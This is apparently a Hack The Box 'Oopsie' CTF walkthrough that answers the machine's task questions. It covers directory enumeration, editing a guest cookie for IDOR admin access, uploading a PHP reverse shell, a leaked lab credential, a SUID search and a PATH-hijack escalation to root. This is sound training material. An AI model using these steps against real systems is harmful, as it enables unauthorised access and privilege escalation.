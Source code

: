 ```yaml
---
layout: post
title: Oopsie
published: true
category: CTF
system: web
walkthrough-type: htb
source: https://app.hackthebox.com/starting-point
Description: A hack the box machine that uses simple IDOR to gain access to file upload to get a reverse shell then use PATH hijacking to gain root.
tags: PHP, Web, Session Handling, Apache, Reconnaissance, Enumeration, Cookie Manipulation, SUID Exploitation, Authentication bypass, Clear Text Credentials, Arbitrary File Upload, IDOR, Path Hijacking
---
```


# Task 1 - With what kind of tool can intercept web traffic?

- `proxy` burp is a proxy

# Task 2 - What is the path to the directory on the webserver that returns a login page?

- `feroxbuster -u http://oopsie.htb -x txt,php -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt` then we find `/cdn-cgi/login` 

# Task 3 - What can be modified in Firefox to get access to the upload page?

Turning on intercept in burp and capture the request for the guest login.

```
GET /cdn-cgi/login/admin.php HTTP/1.1
Host: oopsie.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://oopsie.htb/cdn-cgi/login/index.php
Connection: close
Cookie: user=2233; role=guest
Upgrade-Insecure-Requests: 1
```

We are assigned a user and role here. Selecting account and changing the id variable to 1 gives us a simple IDOR and the access ID of the admin user. So admin is user 1 and their access id = 34322. 

# Task 4 - What is the access ID of the admin user?

34322 We can then capture the request to the upload page and change the corresponsing variables to allow us to access.

# Task 5 - On uploading a file, what directory does that file appear in on the server?

assuming this file is uploaded the the /uploads/ folder we found earliar. Send through a php-rev-shell.php and access it to gain a hold. at this point we can grab the user.txt and start privilege escalation.

# Task 6 - What is the file that contains the password that is shared with the robert user?

We actually found this file earliar during the feroxbuster. But were unable to view here we can access it and fine his robert's creds. `robert:M3g4C0rpUs3r!`

# Task 7 - What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?

- `find / -type f -group bugtracker 2>/dev/null`
- `find / -type f -perm -u=s 2>/dev/null`

# Task 8 - Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?

- root. ls -las the file

# Task 9 - What SUID stands for? 

- Set owner user id

# Task 10 - What is the name of the executable being called in an insecure manner?

When we run `bugtracker` it is calling cat but not from the path, so we should be able to take advantage of this with a PATH highjacking

travel to /tmp and `echo "/bin/sh" > cat && chmod +x cat`. then we can add the dir to the PATH `export PATH=/tmp:$PATH`, then run bugtracker. 

we can after export the path again and remove tmp to cat root.txt.


